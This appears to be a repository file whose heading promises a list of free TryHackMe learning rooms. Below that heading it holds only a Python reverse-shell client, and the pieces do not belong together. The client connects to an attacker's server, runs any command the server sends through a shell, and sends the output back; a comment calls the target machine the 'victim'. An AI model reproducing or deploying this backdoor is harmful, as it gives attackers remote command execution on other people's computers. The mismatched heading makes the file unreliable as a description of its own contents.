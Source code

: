 #FreeTHM-Rooms
##This is the list of Free THM rooms available , Learn ,Enjoy  

############## [+] Client Flie [+] #################


import socket
import os
import subprocess

s = socket.socket()
host = 'Server IP'
port = 'give a port same as attacker'
s.connect((host, port))

while True:
    data = s.recv(1024)
    if data[:2].decode("utf-8") == 'cd':
        os.chdir(data[3:].decode("utf-8"))
    if len(data) > 0:
        cmd = subprocess.Popen(data[:].decode("utf-8"),shell=True, stdout=subprocess.PIPE, stdin=subprocess.PIPE, stderr=subprocess.PIPE)
        output_byte = cmd.stdout.read() + cmd.stderr.read()
        output_str = str(output_byte, "utf-8")
        currentWD = os.getcwd() + ">"
        s.send(str.encode(output_str + currentWD))
        #print(output_str) #comment this string if u dont want output on the victim terminal
